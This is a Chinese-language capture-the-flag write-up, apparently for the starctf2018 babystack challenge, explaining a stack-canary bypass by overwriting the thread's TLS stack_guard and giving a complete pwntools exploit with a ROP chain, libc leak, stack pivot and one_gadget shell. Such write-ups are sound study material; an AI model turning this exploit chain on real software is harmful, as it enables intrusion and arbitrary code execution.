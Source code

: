 [toc]

# 前置知识

- `canary`防御措施与其绕过
- `ret2libc`
- 栈迁移（可用）

# 整体思路

题目非常简单粗暴，主要逻辑是在一个子线程中实现的。首先输入要输入的长度，然后再输入`payload`，且长度可以非常大。因此，要进行栈溢出的唯一难点就在`canary`，而`canary`是位于`fs`寄存器中的，也就是`TLS`结构体的一个偏移。在子线程中，`tls`结构体在栈中的偏移是固定的，可以在`gdb`中通过`p/x *(tcbhead_t*)(pthread_self())`方式来查看`tls`结构体的值。其中`stack_guard`就是`canary`的值，校验`canary`时会取出这个值和栈中的`canary`进行校验，因此覆盖这个值为想要的值即可。可以在`gdb`通过`p/x &(*(tcbhead_t*)(pthread_self())).stack_guard`来查看其地址。

# exp

```python
from pwn import *
from LibcSearcher import *

filename = './bs'
context(log_level='debug')
local = 0
elf = ELF(filename)
libc = ELF('/glibc/2.27-3ubuntu1_amd64/libc.so.6')

if local:
    sh = process(filename)
else:
    sh = remote('node4.buuoj.cn', 28009)

def debug():
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid)
    pause()


def leak_info(name, addr):
    success('{} => {}'.format(name, hex(addr)))


pop_rdi = 0x400c03 
pop_rsi_r15 = 0x400c01
leave_ret = 0x400955

sh.recv()
sh.sendline(str(0x1848 + 0x8))
fake_rbp = 0x602100
payload = b'a'*0x1010 + p64(fake_rbp) + p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(fake_rbp) + p64(0xdeadbeaf) + p64(elf.plt['read']) + p64(leave_ret)
payload = payload.ljust(0x1848+8, b'a')
sh.send(payload)
sh.recvuntil('It\'s time to say goodbye.\n', drop=False)
puts_leak = u64(sh.recv(6).ljust(8, b'\x00'))
leak_info('puts_leak', puts_leak)
libc.address = puts_leak - 0x809c0
leak_info('libc.address', libc.address)

system_addr = libc.sym['system']
str_bin_sh = next(libc.search(b'/bin/sh\x00'))
one_gadget = [0x4f2c5, 0x4f322, 0x10a38c]
payload = p64(0xdeadbeaf)  + p64(one_gadget[1] + libc.address) +p64(0xdeadbeaf)
# payload = p64(0xdeadbeaf) + p64(pop_rdi) + p64(str_bin_sh) + p64(system_addr) +p64(0xdeadbeaf)
leak_info('system', system_addr)
leak_info('str_bin_sh', str_bin_sh)
# debug()
sh.send(payload)
sh.interactive()
# debug()
```

**参考链接**

[starctf2018_babystack | ZIKH26's Blog](https://zikh26.github.io/posts/6967ee12.html)